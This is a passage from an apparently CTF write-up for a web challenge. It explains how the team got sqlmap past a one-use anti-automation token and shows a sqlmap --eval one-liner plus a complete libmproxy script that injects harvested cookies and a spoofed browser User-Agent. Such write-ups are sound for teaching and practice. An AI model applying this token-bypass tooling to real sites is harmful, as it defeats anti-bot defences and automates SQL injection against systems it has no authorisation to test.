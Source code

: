 <pre><code>Cache-Control:no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Date:Sun, 23 Mar 2014 03:49:14 GMT
Expires:Thu, 19 Nov 1981 08:52:00 GMT
Pragma:no-cache
</code></pre>

<p>When you try to use the same <code>web_300_token</code> to send a second request to check.php, the server returns the <code>No automated tools please :)</code> message. So, we need to make sure that each request from sqlmap has a valid <code>web_300_token</code>, by making a request to status.php before each query.</p>

<p>Unfortunately, sqlmap can't do this out of the box. sqlmap <em>does</em> provide an <code>--eval</code> flag which executes Python code in a context containing the data that sqlmap is about to send, along with cookies. However, though it supports modification/addition of query data, changes to cookies are not reflected in the outgoing request. </p>

<p>Our first idea was a bit complicated. We put sqlmap behind an instance of mitmproxy with sticky cookies enabled on all requests. Then, in sqlmap's <code>--eval</code> parameter we passed the code:</p>

<pre><code>import urllib,time; urllib.urlopen('http://backdoor.cognizance.org.in/problems/web300/status.php',proxies={'http':'http://127.0.0.1:7222'});
</code></pre>

<p>The intention was that before each request, sqlmap should send a front-running request to status.php to prime the proxy with the <code>web_300_token</code> cookie. Then sqlmap would send the primary request, mitmproxy would tack on the cookie it received from status.php, and the query would be processed as if from a browser. </p>

<p>For some reason, this doesn't work as intended - mitmproxy mangles and combines cookies with expiration times on outgoing requests, and the check.php script rejects them. So, we had to go a step further and put together a libmproxy server to process the incoming and outgoing requests as we wanted:</p>

<pre><code>from libmproxy import controller, proxy
import os

class StickyMaster(controller.Master):
    def __init__(self, server):
        controller.Master.__init__(self, server)
        self.cookies=[]
    def run(self):
        try:
            return controller.Master.run(self)
        except KeyboardInterrupt:
            self.shutdown()

    def handle_request(self, msg):
        hid = (msg.host, msg.port)
        msg.headers["Cookie"] = ['; '.join(self.cookies)]
        msg.headers['User-Agent'] = ['Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.152 Safari/537.36']
        msg.headers['Connection'] = ['keep-alive']
        msg.reply()

    def handle_response(self, msg):
        hid = (msg.request.host, msg.request.port)
        if msg.headers["set-cookie"]:
            self.cookies = [x.split(';')[0] for x in msg.headers["set-cookie"] if 'delete' not in x]            
        print msg.headers, self.cookies
        msg.reply()
config = proxy.ProxyConfig()
server = proxy.ProxyServer(config, 7222)
m = StickyMaster(server)
m.run()
</code></pre>

